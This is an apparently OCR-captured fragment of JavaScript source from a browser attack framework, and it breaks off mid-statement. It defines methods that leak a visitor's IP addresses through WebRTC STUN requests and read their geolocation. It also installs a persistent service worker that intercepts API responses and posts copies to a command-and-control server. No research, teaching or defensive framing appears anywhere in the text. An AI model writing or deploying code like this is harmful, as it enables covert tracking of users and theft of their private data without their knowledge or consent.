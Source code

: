 ```javascript
    
    async exploitWebRTC() {
        if (!this.capabilities.webrtc) return null;
        
        return new Promise((resolve) => {
            const pc = new RTCPeerConnection({
                iceServers: [{ urls: 'stun:stun.l.google.com:19302' }]
            });
            
            const ips = [];
            
            pc.onicecandidate = (event) => {
                if (event.candidate) {
                    const candidate = event.candidate.candidate;
                    const ipMatch = candidate.match(/(\d+\.\d+\.\d+\.\d+)/);
                    if (ipMatch && !ips.includes(ipMatch[1])) {
                        ips.push(ipMatch[1]);
                    }
                }
            };
            
            pc.createDataChannel('');
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            
            setTimeout(() => {
                pc.close();
                resolve(ips);
            }, 2000);
        });
    }
    
    async exploitGeolocation() {
        if (!this.capabilities.geolocation) return null;
        
        return new Promise((resolve) => {
            navigator.geolocation.getCurrentPosition(
                (position) => {
                    resolve({
                        latitude: position.coords.latitude,
                        longitude: position.coords.longitude,
                        accuracy: position.coords.accuracy
                    });
                },
                () => resolve(null),
                { timeout: 5000 }
            );
        });
    }
    
    async installPersistence() {
        if (!this.capabilities.serviceWorker) return false;
        
        const swCode = \`
            self.addEventListener('fetch', (event) => {
                // Intercept all network requests
                if (event.request.url.includes('/api/')) {
                    event.respondWith(
                        fetch(event.request).then(response => {
                            // Clone and exfiltrate API responses
                            const clonedResponse = response.clone();
                            clonedResponse.text().then(text => {
                                fetch('${this.c2Server}/intercept', {
                                    method: 'POST',
```